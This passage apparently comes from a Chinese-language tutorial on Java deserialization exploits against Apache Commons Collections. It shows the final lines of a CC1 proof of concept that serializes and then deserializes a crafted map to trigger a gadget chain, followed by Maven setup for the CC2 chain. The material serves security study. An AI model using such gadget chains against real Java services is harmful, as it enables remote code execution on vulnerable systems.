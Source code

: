 ```java
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

## CC2

### 环境搭建

- JDK 1.7
- Commons Collections 4.0
- javassit

maven：

```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.25.0-GA</version>
</dependency>
```

### 利用链分析

这里需要 javassist 的知识：

导包：

```
<dependency>
  <groupId>org.javassist</groupId>
  <artifactId>javassist</artifactId>
  <version>3.25.0-GA</version>
</dependency>
```
